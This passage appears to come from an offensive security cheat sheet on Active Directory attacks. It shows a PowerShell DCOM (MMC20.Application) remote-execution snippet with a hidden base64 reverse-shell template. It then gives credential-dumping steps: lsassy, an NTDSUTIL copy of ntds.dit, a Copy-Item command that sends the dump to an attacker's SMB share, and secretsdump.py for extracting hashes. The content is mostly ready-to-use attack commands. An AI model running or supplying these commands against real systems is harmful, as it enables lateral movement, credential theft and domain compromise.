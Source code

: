 ```powershell

#from elevated shell

$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","192.168.xx.xx"))

# pass the command

$dcom.Document.ActiveView.ExecuteShellCommand("cmd",$null,"/c calc","7")

# or pass base64 encoded reverse shell

$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"powershell -nop -w hidden -e  base_64_code","7")

```

## Dumping Credentials

### lsassy

This is preferred and most silent way of dumping AD contents.

use `lsassy`

For that you are going to need credentials: local, ntlm, or ticket

### ntds.dit exfiltration using NTDSUTIL

dit-file with AD credentials can be dumped in a variety of ways once System privilege is obtained on domain controller

Make a fake AD installation file
`NTDSUTIL "Activate Instance NTDS" "IFM" "Create Full C:\Files" "q" "q"`

Copy it to attacking machine
`Copy-Item -Path  C:\Files -Destination  '\\192.168.219.129\dumb' -Recurse`

Contents should be like
```
└─$ tree Files    
Files
├── Active Directory
│   ├── ntds.dit
│   └── ntds.jfm
└── registry
    ├── SECURITY
    └── SYSTEM
```

Then secretsdump.py can be used to decrypt and dump hashes from ntds.dit.

For doing that authentification information of DC needed.
